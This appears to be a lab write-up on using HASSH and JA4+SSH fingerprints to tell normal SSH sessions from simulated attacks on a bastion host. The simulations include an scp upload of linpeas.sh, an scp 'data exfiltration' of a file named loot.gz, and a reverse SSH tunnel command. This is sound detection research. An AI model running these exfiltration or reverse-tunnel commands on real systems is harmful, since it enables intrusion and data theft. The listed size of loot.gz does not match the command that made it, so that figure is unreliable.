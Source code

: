 ## Scenario 01 - [HASSH] SSH Client Software Connection to Bastion
<details>
  <summary>Expand to see details</summary>
Summary: Examine HASSH results when different SSH client software is used to connect to bastion

Connect from User PC to Bastion with username bob

  - User PC - 192.168.91.132 (Windows 10)
  - Bastion - 192.168.91.129 (Debian12)

PCAP Filter:
```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario01.pcap
```


<details>
  <summary>PuTTY Client Connection</summary>
  
  Extract HASSH for `PuTTY` with tshark

  ```bash
  $ tshark -nr scenario01_putty_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hassh
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	1dd4d89cd6b7a1f7b06acf808260c130
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	
  ```  
  
</details>


<details>
  <summary>MS Terminal SSH Client</summary>
  
  Extract HASSH for `MS Terminal ssh` with tshark
  ```bash
  $ tshark -nr scenario01_ms_terminal_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hassh
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	ec7378c1a92f5a8dde7e8b7a1ddf33d1
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	
  ```
</details>

### Conclusion

Using different client software on UserPC produces different HASSH values. There is a difference between PuTTY and MS Terminal ssh.

| HASSH Value    | SSH Client Software       |
|----------------|----------------|
| 1dd4d89cd6b7a1f7b06acf808260c130  | PuTTY  |
| ec7378c1a92f5a8dde7e8b7a1ddf33d1  | MS Terminal ssh  |

TODO: extract client algorithms each software used - maybe in Appendix for space saving?

</details>

## Scenario 02 - [HASSH] Server Response to Different Client Connections
<details>
  <summary>Expand to see details</summary>
Summary: Examine HASSHserver results when different SSH client software is used to connect to bastion. PCAPs are copied from Scenario01.

Extract HASSHserver with tshark
```bash
$ tshark -nr scenario02_putty_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hasshserver
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	a65c3b91f743d3f246e72172e77288f1
```

Extract HASSHserver with tshark
```bash
$ tshark -nr scenario02_ms_terminal_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hasshserver
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	a65c3b91f743d3f246e72172e77288f1
```
TODO: extract server algorithms each software used - maybe in Appendix for space saving?

### Conclusion

hasshServer remains constant regardless of client connection

| HASSHserver Value    | SSH Client Software       |
|----------------|----------------|
|  a65c3b91f743d3f246e72172e77288f1 | PuTTY  |
|  a65c3b91f743d3f246e72172e77288f1 | MS Terminal ssh  |

</details>

## Scenario 03 - [HASSH] Connect Bastion to Defended Server 
<details>
  <summary>Expand to see details</summary>
Summary: Use either PuTTY or MS Terminal ssh to establish connection from UserPC to Bastion. Establish connection from Bastion to Defended Server. Examine HASSH and HASSHserver for Bastion to Defended Server.

  - User PC - 192.168.91.132 (Windows 10)
  - Bastion - 192.168.91.129 (Debian12)
  - Defended Server - 192.168.91.133 (Debain12)

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario03.pcap
```
</details>

Extract HASSH and HASSHserver with tshark

```bash
$ tshark -nr scenario03.pcap -Y 'ssh.message_code == 20 and ip.addr == 192.168.91.133' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hassh -e ssh.kex.hasshserver
48	192.168.91.129	192.168.91.133	Client: Key Exchange Init	aae6b9604f6f3356543709a376d7f657	
49	192.168.91.133	192.168.91.129	Server: Key Exchange Init	a65c3b91f743d3f246e72172e77288f1
```

### Conclusion:

Client HASSH uses SSH software on Bastion installed by Debian12. This `aae6b9604f6f3356543709a376d7f657` is different from PuTTY HASSH `1dd4d89cd6b7a1f7b06acf808260c130` and MS Terminal ssh HASSH `ec7378c1a92f5a8dde7e8b7a1ddf33d1`

| HASSH Value    | SSH Client Software       |
|----------------|----------------|
| 1dd4d89cd6b7a1f7b06acf808260c130  | PuTTY  |
| ec7378c1a92f5a8dde7e8b7a1ddf33d1  | MS Terminal ssh  |
| aae6b9604f6f3356543709a376d7f657  | OpenSSH Client from Bastion host |

Server HASSHserver `a65c3b91f743d3f246e72172e77288f1` remains constant from Scenario02.

Note: sshd_config is the same on both Bastion and Defended Server, resulting in same HASSHserver

| HASSHserver Value    | SSH Client Software       |
|----------------|----------------|
|  a65c3b91f743d3f246e72172e77288f1 | Scenario02 Bastion HASSHserver  |
|  a65c3b91f743d3f246e72172e77288f1 | Scenario03 Defended Server HASSHserver  |

</details>

## Scenario 04 - [JA4+SSH] Normal Behavior - Forward Interactive Shell to Bastion
<details>
  <summary>Expand to see details</summary>
Summary: Connect from UserPC to Bastion using either UserPC SSH client software. Perform typical system administator commands such as checking system information.

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)

System commands executed on Bastion:
```bash
pwd
whoami
cat /etc/os-release
uptime
uname -a
who
exit
```

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario04.pcap
```
</details>

Modify JA4.py script to calculate JA4+SSH values based on 20 SSH Packets. JA4.py by default will monitor 200 packets before calculating fingerprint. Modification is required because of the limited number of commands entered on the host.

Modify line 406 in script:
https://github.com/FoxIO-LLC/ja4/blob/main/python/ja4.py#L406

Conclusion:

JA4+SSH prints JA4SSH.x values indicating expected forward interactive shell. Each keystroke is encrypted on the client and sent to the server. A TCP ACK is sent acknowledging the encrypted packet from the client. Thus, the JA4+SSH fingerprint - c36s36_xxxx_xxxx

```json
$ ja4 scenario04_nopatch.pcap -J
{
    "stream": 0,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "49765",
    "dstport": "22",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "8_64",
    "JA4L-C": "1225_128",
    "ssh_extras": {
        "hassh": "ec7378c1a92f5a8dde7e8b7a1ddf33d1",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_for_Windows_8.1",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c33s44_c9s11_c4s3",
    "JA4SSH.2": "c36s36_c9s11_c10s0",
    "JA4SSH.3": "c36s36_c9s11_c10s0",
    "JA4SSH.4": "c36s36_c10s10_c10s0",
    "JA4SSH.5": "c36s36_c8s12_c10s0",
    "JA4SSH.6": "c36s36_c8s12_c10s0",
    "JA4SSH.7": "c36s36_c7s13_c8s0",
    "JA4SSH.8": "c36s36_c7s13_c10s0",
    "JA4SSH.9": "c36s36_c0s0_c0s1"
}
```

</details>

## Scenario 05 - [JA4+SSH] Unauthorized File Copy to Bastion - linpeas.sh
<details>
  <summary>Expand to see details</summary>

Summary: Simulate an unauthorized file copy using SCP from UserPC to Bastion. File copied in example is linpeas.sh without any obfuscation or armoring.

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)

File details for `linpeas.sh` on UserPC
```bash
PS C:\Users\Bob> ls -l linpeas.sh


    Directory: C:\Users\Bob


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/15/2024  12:05 PM         824745 linpeas.sh
```

Execute SCP command to simulate unauthorized file copy to Bastion

```bash
$ scp linpeas.sh bob@bastion:~/
```

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario05.pcap
```
</details>



Conclusion:

The file chosen is 824745 bytes. The MTU for this network is 1500 bytes. As the Secure Copy (SCP) process encrypts the file and sends over SSH, the JA4+SSH fingerprint value detects the SSH payload as 1460 bytes, allowing 20 bytes for the IP and TCP header values. Previously, the SSH payload was padded to 36 bytes based on the encryption algorithms used in the connection.

```json
$ ja4 scenario05.pcap -J
{
    "stream": 0,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "49826",
    "dstport": "22",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "1327_128",
    "ssh_extras": {
        "hassh": "ec7378c1a92f5a8dde7e8b7a1ddf33d1",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_for_Windows_8.1",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c1460s36_c185s15_c4s131",
    "JA4SSH.2": "c1460s36_c0s0_c0s1"
}
```

| JA4+SSH Value    | Simulated Activity       |
|----------------|----------------|
|  c36s36_c10s10_c10s0 | Forward Interactive Shell   |
|  c1460s36_c185s15_c4s131 | Unauthorized SCP to Bastion  |

</details>

## Scenario 06 - [JA4+SSH] Data Exfil from Bastion - loot.gz
<details>
  <summary>Expand to see details</summary>

Summary: Simulate data exfiltration from Bastion. Secure Copy (SCP) a file from Bastion to UserPC. A generated file on Bastion host is SCP to UserPC.

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)

<details>
<summary>Generate `loot.gz` file for data exfiltration simulation on Bastion</summary>

```bash
$ dd if=/dev/urandom of=loot bs=1M count=1
1+0 records in
1+0 records out
1048576 bytes (1.0 MB, 1.0 MiB) copied, 0.00341959 s, 307 MB/s
$ gzip loot
$ ls -l loot.gz
-rw-r--r-- 1 bob bob 10487383 Oct 19 16:23 loot.gz
```
</details>


Execute SCP command to simulate unauthorized file copy to Bastion

```bash
$ scp bob@bastion:~/loot.gz .
```

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario06.pcap
```
</details>

Conclusion:

Similar to Scenario05, the server (Bastion) is the one sending data via SSH with very few client interactions. The JA4+SSH fingerprint value accurately represents this scenario.

```json
$ ja4 scenario06.pcap -J
{
    "stream": 0,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "49897",
    "dstport": "22",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "1391_128",
    "ssh_extras": {
        "hassh": "ec7378c1a92f5a8dde7e8b7a1ddf33d1",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_for_Windows_8.1",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c60s1460_c11s189_c13s3",
    "JA4SSH.2": "c60s1460_c0s200_c10s0",
    "JA4SSH.3": "c36s1460_c3s197_c10s0"
}
```

| JA4+SSH Value    | Simulated Activity       |
|----------------|----------------|
|  c36s36_c10s10_c10s0 | Forward Interactive Shell   |
|  c1460s36_c185s15_c4s131 | Unauthorized SCP to Bastion  |
|  c60s1460_c0s200_c10s0  | Data Exfiltration from Bastion      |

</details>

## Scenario 07 - [JA4+SSH] Reverse Shell
<details>
  <summary>Expand to see details</summary>

Summary: Simulate reverse shell on Bastion. 

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)
  - Defended - 192.168.91.133 (Debian12)

<details>
<summary>Setup SSH Reverse Shell</summary>

```bash
$ ssh -N -R 2222:localhost:22 root@192.168.91.129
```
On Bastion observe before and after netstat output
Before:

```bash
$ sudo netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      795/sshd: /usr/sbin 
tcp6       0      0 :::22                   :::*                    LISTEN      795/sshd: /usr/sbin 
```

After reverse shell established:

```bash
$ sudo netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      3708/sshd: root     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      795/sshd: /usr/sbin 
tcp        0      0 192.168.91.129:22       192.168.91.133:59190    ESTABLISHED 3708/sshd: root     
tcp6       0      0 :::2222                 :::*                    LISTEN      3708/sshd: root     
tcp6       0      0 :::22                   :::*                    LISTEN      795/sshd: /usr/sbin 
```

After connection from UserPC
```bash
$ sudo netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      3708/sshd: root     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      795/sshd: /usr/sbin 
tcp        0      0 192.168.91.129:2222     192.168.91.132:51477    ESTABLISHED 3708/sshd: root     
tcp        0      0 192.168.91.129:22       192.168.91.133:59190    ESTABLISHED 3708/sshd: root     
tcp6       0      0 :::2222                 :::*                    LISTEN      3708/sshd: root     
tcp6       0      0 :::22                   :::*                    LISTEN      795/sshd: /usr/sbin 
```

</details>


Connect from UserPC to Bastion on port 2222

```bash
$ ssh -p 2222 bastion
```

<details>
<summary>PCAP Filter - updates!</summary>

```bash
tcpdump -ni ens33 'tcp and (port 22 or port 2222)' -w scenario07.pcap
```
</details>

Conclusion:

Similar to previous scenarios, chacha20-poly1305 is the chosen algorithm. Each keystroke is 36 bytes. However, since this is a reverse shell, we have SSH over SSH. Each keystroke on UserPC is echoed to a psuedo tty (shell) on the defended server. The PCAP will show each SSH Payload to be 76 bytes, because this is 'double' encrypted + HMAC. The JA4+SSH fingerprint value accurately represents this scenario.

```json
$ ja4 scenario07.pcap -J
{
    "stream": 0,
    "src": "192.168.91.133",  (Defended)
    "dst": "192.168.91.129",  (Bastion)
    "srcport": "59190",
    "dstport": "22",
    "client_ttl": "64",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "549_64",
    "ssh_extras": {
        "hassh": "aae6b9604f6f3356543709a376d7f657",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c44s40_c10s10_c9s5",
    "JA4SSH.2": "c84s52_c11s9_c7s5",
    "JA4SSH.3": "c76s76_c10s10_c0s10",
    "JA4SSH.4": "c76s76_c10s10_c0s10",
    "JA4SSH.5": "c76s76_c10s10_c0s10",
    "JA4SSH.6": "c76s76_c10s10_c0s10",
    "JA4SSH.7": "c76s76_c10s10_c0s10",
    "JA4SSH.8": "c76s76_c10s10_c0s10",
    "JA4SSH.9": "c76s76_c10s10_c0s10",
    "JA4SSH.10": "c76s76_c10s10_c0s10",
    "JA4SSH.11": "c76s76_c10s10_c0s10",
    "JA4SSH.12": "c76s76_c10s10_c0s10",
    "JA4SSH.13": "c76s76_c0s0_c0s1"
}
{
    "stream": 1,
    "src": "192.168.91.132",   (UserPC)
    "dst": "192.168.91.129",   (Bastion)
    "srcport": "51477",
    "dstport": "2222",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "2325_128"
}
```

| JA4+SSH Value    | Simulated Activity       |
|----------------|----------------|
|  c36s36_c10s10_c10s0 | Forward Interactive Shell   |
|  c1460s36_c185s15_c4s131 | Unauthorized SCP to Bastion  |
|  c60s1460_c0s200_c10s0  | Data Exfiltration from Bastion      |
|  c76s76_c10s10_c0s10    | Reverse Shell |

</details>